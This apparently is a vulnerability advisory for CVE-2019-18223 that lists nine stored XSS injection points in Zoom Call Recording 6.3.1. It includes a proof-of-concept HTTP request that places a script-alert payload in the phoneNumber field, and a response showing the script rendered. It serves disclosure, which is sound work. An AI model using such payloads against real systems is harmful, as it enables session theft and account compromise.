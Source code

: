 # CVE-2019-18223-XSS-ZoomCallRecording
Zoom Call Recording 6.3.1 from [ZOOM International](https://www.zoomint.com/solutions/call-recording) suffers from multiple XSS vulnerabilities via:
- the phoneNumber field in the (1) User Edit or (2) User Add form
- (3) name field in the Role Add form
- (4) name or number field in the Edit Group form
- (5) tagKey or tagValue field in the Recording Rules Configuration
- (6) txt_69735:/VemailAddress/value or txt_75767:/VemailFrom/value field in callrec/config
- (7) selectedMenuId field in callrec/config
- (8) xmlPath field in callrec/config
- (9) escaping the textarea in callrec/logs_view.jsp


## Evidence

### XSS(1) - Stored XSS in “/callrec/userEditAction.do” page

Request:
```
POST /callrec/userEditAction.do 
HTTP/1.1 Host: xxx.xxxxxxx.net 
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8 
Accept-Language: en-US,en;q=0.5 
Accept-Encoding: gzip, deflate 
Referer: https://xxx.xxxxxxx.net/callrec/user_edit.jsp?userId=5&roleId=3 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 329 Cookie: JSESSIONID=0724AC780C8C2535253EFD6ADBB16E55 
Connection: close Upgrade-Insecure-Requests: 1 

org.apache.struts.taglib.html.TOKEN=10a6ccd1d842ac1ff64bc645fd053ea8&login2=XXXXXX&firstName=xxx+-+xxxxxx&lastName=xxxxx&email=xxx-xxxxxxx.xxx%40xxx.ro&phoneNumber=<script>alert('XSS')</script>&ldapUser=on&roleId=3&viewRoleId=&loginOriginal=XXXXXX&roleIdOriginal=3&ldapUserOriginal=LDAP&phoneNumberOriginal=&userId=5&ldapOriginal=true
```

Response:
```
HTTP/1.1 200 OK 
Date: Wed, 09 Oct 2019 08:09:16 GMT 
Server: Apache Content-Type: text/html;charset=utf-8 
Vary: Accept-Encoding 
Content-Length: 9959 
Connection: close 

***TRUNCATED***
            <img src="images/icon-admin.png" width="16" height="16" alt=""><strong>XXXXXX</strong>
            
              </a>
            
          </td>
          <td class="left soft_wrap">
            Marin
          </td>
          <td class="left soft_wrap">
              XXX - XXXXXXXX
          </td>
          <td class="number wrap">
              <script>alert('XSS');</script>
          </td>
          
            <td style="text-align:center;">
```
